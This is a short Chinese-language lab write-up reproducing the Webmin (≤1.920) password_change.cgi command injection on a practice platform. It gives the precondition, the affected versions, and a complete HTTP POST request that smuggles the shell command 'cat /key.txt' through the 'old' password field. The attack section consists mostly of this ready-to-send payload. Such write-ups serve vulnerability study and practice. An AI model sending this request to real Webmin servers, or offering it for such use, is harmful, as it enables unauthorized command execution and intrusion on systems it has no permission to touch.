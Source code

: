# 0x00 复现环境
使用复现环境：Webmin1.910->https://www.mozhe.cn/bug/detail/d01lL2RSbGEwZUNTeThVZ0xDdXl0Zz09bW96aGUmozhe

# 0x01 利用条件
需要开启密码重置功能，如下图  
![image](./0.png)  
查看webmin的配置文件/etc/webmin/miniserv.conf，可以发现passwd_mode的值已经从0变为了2

# 0x02 影响版本
Webmin<=1.920

# 0x03 漏洞复现
随便发起一个请求，burp拦截，修改为如下数据包  
```
POST /password_change.cgi HTTP/1.1
Host: 219.153.49.228:41489
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:68.0) Gecko/20100101 Firefox/68.0Accept: text/html, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://219.153.49.228:41489/passwd/index.cgi?xnavigation=1
X-PJAX: true
X-PJAX-Container: [data-dcontainer]
X-PJAX-URL: passwd/edit_passwd.cgi?user=root
X-Requested-From: passwd
X-Requested-From-Tab: webmin
X-Requested-With: XMLHttpRequest
Content-Type: text/plain;charset=UTF-8
Content-Length: 60
Connection: close

user=yibudengtian&old=cat /key.txt&new1=123456&new2=123456
```

# 0x04 踩坑记录
坑1：
![image](./1.png)

# 参考链接
https://xz.aliyun.com/t/6040  
https://www.cnblogs.com/paperpen/p/11442532.html
